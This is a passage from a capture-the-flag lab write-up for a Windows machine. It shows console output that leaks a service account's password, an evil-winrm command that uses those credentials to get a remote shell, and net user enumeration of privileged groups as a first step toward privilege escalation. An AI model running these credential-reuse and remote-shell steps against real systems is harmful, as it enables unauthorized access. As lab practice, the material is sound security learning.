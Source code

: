 Got some strange output:
```Console
0*`%return\svc-printer�
0*`%return\svc-printer�
0*`%return\svc-printer�
0*`%return\svc-printer�1edFg43012!!
                       1edFg43012!!
```
Possible username: svc-printer
Possible password: 1edFg43012!!

Acheived shell access with:
`evil-winrm -i $IP -u svc-printer -p '1edFg43012!!'`

Located `user.txt` at `C:\Users\svc-printer\Desktop\user.txt`

User flag: `073*****************************`

### Privilege Escalation
```Console
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/13/2021 12:25:27 PM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

**Focusing on Local Group Memberships:**
 * Print Operators
 * Remote Management Users
 * Server Operators
